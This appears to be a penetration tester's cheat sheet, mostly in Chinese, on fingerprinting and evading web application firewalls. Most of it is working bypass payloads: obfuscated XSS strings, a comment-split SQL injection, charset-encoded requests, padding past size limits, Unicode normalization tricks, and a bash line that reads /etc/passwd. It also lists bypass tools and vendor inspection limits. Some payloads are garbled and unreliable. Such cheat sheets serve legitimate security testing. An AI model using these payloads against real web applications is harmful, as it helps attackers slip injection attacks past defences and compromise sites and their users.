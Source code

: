 # Web Application Firewall (WAF)
https://medium.com/@allypetitt/5-ways-i-bypassed-your-web-application-firewall-waf-43852a43a1c2 <br>
## 手動識別 WAF
- WAF 的名稱Server 標題（例如Server: cloudflare）
- 與 WAF 相關的其他 HTTP 回應標頭（例如CF-RAY: xxxxxxxxxxx）
- 看似由 WAF 設定的 Cookie（例如回應標頭Set-Cookie: __cfduid=xxxxx）
- 提交惡意請求時的唯一回應代碼。 （例如412）
- 可以透過FIN/RST向伺服器發送 TCP 封包

## 自動化識別 WAF
1. Nmap
  - Nmap 腳本引擎 (NSE) 包含用於偵測和指紋辨識防火牆的腳本
  - $ nmap --script=http-waf-fingerprint,http-waf-detect -p443 example.com
2. WafW00f
  - 命令列實用程序
  - $ wafw00f example.com
3. WhatWaf

# Bypassing WAFs
## Bypassing Regex 繞過正規表示式
- 更改有效載荷的大小寫 :
    - <sCrIpT>alert(XSS)</sCriPt> 
- 使用各種編碼、替換函數或字元 :
    - 在前面加上一個額外的「<」:  << script>alert(XSS)</script >
    - 刪除結束標籤 :  <script>alert(XSS) //
    - 使用反引號取代代號代替 : <script>alert`XSS`</script>
- 使用其他語法以及使用換行符或製表符。
    - 雙開尖括號 : java%0ascript:alert ( http.com 
    - 不常見的標籤 : <"STYLE>.classname{background-image:url( "javascript:alert(XSS)" );/STYLE">
    - 需要繞過: <"img/src=1/onerror=alert(0)">
    - 額外字符 : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa href=javascript:alert(1)>xss</a">"

## Obfuscation 混淆 
- Function( "ale" + "rt(1)" )(); #使用除了 alert、console.log 和 prompt 之外的不常見函數javascript
- /? id =1+un/**/ion+sel/**/ect+1,2,3-- #在 SQL 查詢中使用註解來分解語句
- new Function`alt\`6\``; #使用反引號而不是括號
- data:text/html; base64 4mPHxNv564Fx2Fv)5(Q/html; base2W.編碼 javascript %26%2397;lert(1) #使用 HTML 編碼
- <a src= "%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aconfirm ( XSSDY #$%&()*~+-_.,:;?@[/|\]^`=confirm()> # 在事件處理程序和等號之間使用任何非字母、數字或封裝字元（僅適用於 Gecko 引擎）

## Charset 字元集
- 修改Content-Type標頭以使用不同的字元集（例如ibm500）
- Python
$ python3  <br>
-- snip --  <br>
>>>  import urllib.parse <br>
>>>  s = '<script>alert("xss")</script>' <br>
 >>>  urllib.parse.quote_plus(s.encode( "IBM037" )) <br>
 'L%A2%83%99%89%97%A3n%81%93%85%99%A3M%7F%A7%A2%A2%7F%5DLa%A2%83%99%89%97%A3n' <br>

- 將編碼後的字串傳送到請求正文中並上傳到伺服器 <br>
POST /comment/post HTTP/1.1 <br>
Host: chatapp <br>
Content-Type: application/x-www-form-urlencoded; charset=ibm500 <br>
Content-Length: 74 <br>
%A2%83%99%89%97%A3n%81%93%85%99%A3M%7F%A7%A2%A2%7F%5DLa%A2%83%99%89%97%A3 <br>

## Content Size 內容大小
- 如果有效負載超過一定大小，則不會檢查請求
- add gibberi e.g 8kb char
## Unicode Compatibility
- 將視覺上不同的字元分解為相同的基本抽象字元
- NFC：規範化形式規範組合
- NFD：規範化形式規範分解
- NFKC：規範化形式相容性組合
- NFKD：範式相容性分解
e.g ＜img src=p onerror='prompt(1)'> --> ＜img src⁼p onerror⁼＇prompt⁽1⁾＇﹥
## Uninitialized Variables 未初始化
- Bash 將未初始化的變數視為空字串
- echo $u
- cat$u /etc%u/passwd$u

## Tools (Burp plugin)
- Bypass WAF
    - https://portswigger.net/bappstore/ae2611da3bbc4687953a1f4ba6a4e04c
- WAF Bypadd
    - https://portswigger.net/bappstore/14c6fc737ce4468b807b80023d9740a8
    - 透過使用虛擬資料填充 HTTP 請求來繞過 Web 應用程式防火牆 (WAF)
- nowafpls
    - https://github.com/assetnote/nowafpls
    - 透過使用虛擬資料填充 HTTP 請求來繞過 Web 應用程式防火牆 (WAF)

## 已記錄的 WAF 限制
- Cloudflare: 128 KB for ruleset engine, up to 500 MB for enterprise
- AWS WAF	: 8 KB - 64 KB (configurable depending on service)
- Akamai	: 8 KB - 128 KB
- Azure WAF	: 128 KB
- Fortiweb by Fortinet: 100 MB
- Barracuda WAF: 64 KB
- Sucuri: 10 MB
- Radware AppWall	: up to 1 GB for cloud WAF
- F5 BIG-IP WAAP: 20 MB (configurable)
- Palo Alto: 10 MB
- Cloud Armor by Google: 8 KB (can be increased to 128 KB)

